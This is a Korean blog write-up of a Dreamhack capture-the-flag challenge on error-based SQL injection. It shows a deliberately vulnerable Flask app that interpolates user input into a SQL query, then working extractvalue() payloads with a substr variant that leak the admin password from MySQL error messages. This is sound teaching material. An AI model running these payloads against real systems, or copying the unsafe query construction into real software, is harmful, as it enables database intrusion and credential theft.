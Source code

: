 ```yaml
---
title: (6) Dreamhack error based sql injection 문제 풀이
date: 2024-01-11 +09:00
categories:
  - 웹해킹
tags:
  - [웹해킹, 드림핵]
---
```

{% raw %}
## 문제 설명
Simple Error Based SQL Injection !

## Error Based Sqli
말 그대로 에러를 기반으로 sql injection을 하는 겁니다. 결과를 알려주지 않고 에러만 알려주는 못된(?) 사이트에서 쓸 수 있는 기법입니다.

### extractvalue()
extractvalue 함수는 XML 형식(1번째 인자)에서 XPath 조건식(2번째 인자)에 해당하는 값을 반환합니다.  
이때 extractvalue 함수로 XPath로 유효하지 않은 문자열을 넘겨준다면 이 값을 그대로 에러메세지에 출력합니다. 따라서 여기서 서브쿼리를 실행하고 결과를 extractvalue함수로 넣어준다면 에러메세지로 서브쿼리의 실행결과를 받아올 수 있습니다.  

sqli에 사용하기 위한 기본적인 형식은 다음과 같습니다.
```sql
extractvalue(1,concat(0x3a,('select * from user ...')))
```
1이라는 값에서 입력한 쿼리의 결과에 해당하는 XPath 조건을 찾는 다는데, 당연히 에러가 나겠죠. 애초에 XPath 조건 부터 제대로 주지 않을 겁니다.  
이걸 어떤 쿼리문 뒤에 붙여서 넘기면 에러가 뜨고 에러메세지에는 쿼리의 결과가 나올겁니다.

## 문제 풀이
![](https://kyuyeop.github.io/assets/img/post/6/1.png)
일단 사이트는 이렇게 생겼습니다. 아마 위에 있는 쿼리문이 실행되는것 같습니다.  
  
그럼 제공된 코드를 한번 살펴보겠습니다.
```python
# app.py
import os
from flask import Flask, request
from flask_mysqldb import MySQL

app = Flask(__name__)
app.config['MYSQL_HOST'] = os.environ.get('MYSQL_HOST', 'localhost')
app.config['MYSQL_USER'] = os.environ.get('MYSQL_USER', 'user')
app.config['MYSQL_PASSWORD'] = os.environ.get('MYSQL_PASSWORD', 'pass')
app.config['MYSQL_DB'] = os.environ.get('MYSQL_DB', 'users')
mysql = MySQL(app)

template ='''
<pre style="font-size:200%">SELECT * FROM user WHERE uid='{uid}';</pre><hr/>
<form>
    <input tyupe='text' name='uid' placeholder='uid'>
    <input type='submit' value='submit'>
</form>
'''

@app.route('/', methods=['POST', 'GET'])
def index():
    uid = request.args.get('uid')
    if uid:
        try:
            cur = mysql.connection.cursor()
            cur.execute(f"SELECT * FROM user WHERE uid='{uid}';")
            return template.format(uid=uid)
        except Exception as e:
            return str(e)
    else:
        return template


if __name__ == '__main__':
    app.run(host='0.0.0.0')
```
```sql
# init.sql
CREATE DATABASE IF NOT EXISTS `users`;
GRANT ALL PRIVILEGES ON users.* TO 'dbuser'@'localhost' IDENTIFIED BY 'dbpass';

USE `users`;
CREATE TABLE user(
  idx int auto_increment primary key,
  uid varchar(128) not null,
  upw varchar(128) not null
);

INSERT INTO user(uid, upw) values('admin', 'DH{**FLAG**}');
INSERT INTO user(uid, upw) values('guest', 'guest');
INSERT INTO user(uid, upw) values('test', 'test');
FLUSH PRIVILEGES;
```
이 init.sql이 실행되었다면 DB에는 이런 데이터가 들어가 있을 겁니다.
{% endraw %}
|uid|upw|
|:---:|:---:|
|admin|DH\{...\}|
|guest|guest|
|test|test|
{% raw %}
이번에는 flag를 탈취하기 위해 먼저 알아본 extractvalue 함수를 이용할 겁니다. admin의 upw값을 알고싶은 거기 때문에 결과를 알고싶은 쿼리 이렇게 될겁니다.
```sql
select upw from user where uid='admin'
```
이걸 extractvalue와 결합하면
```sql
extractvalue(1,concat(0x3a,(select upw from user where uid='admin')))
```
이렇게 될 겁니다.  
  
submit 버튼을 누르면 입력값인 uid에 따라
```sql
SELECT * FROM user WHERE uid='{uid}';
```
이런 쿼리문이 실행됩니다.  
  
따라서 uid에 아래와 같은 값을 넣어준다면
```
' AND extractvalue(1,concat(0x3a,(select upw from user where uid='admin')))-- 
```
실제로는
```sql
SELECT * FROM user WHERE uid='' AND extractvalue(1,concat(0x3a,(select upw from user where uid='admin')))-- ';

```
이런게 실행되어 버릴 겁니다. 에러가 나므로 당연히 try에서 expect로 빠질거고, 에러메세지가 그대로 출력될 겁니다.  
  
실제로도 그런지 테스트를 해보면
![](https://kyuyeop.github.io/assets/img/post/6/2.png)
flag가 출력되긴 했는데... 잘려서 나옵니다. 에러메세지가 너무 길어서 잘려서 출력되었습니다.  
  
이를 해결하기 위해서 substr을 사용할 겁니다. 일단 앞의 28자는 출력이 되었으므로 대충 25번째 부터 추가로 20글자 정도를 출력하도록 쿼리문을 수정해 보겠습니다.
```
' AND extractvalue(1,concat(0x3a,(select substr(upw,25,20) from user where uid='admin')))-- 
```
![](https://kyuyeop.github.io/assets/img/post/6/3.png)
이렇게 나머지 부분도 출력이 되어 flag를 획득했습니다.
{% endraw %}
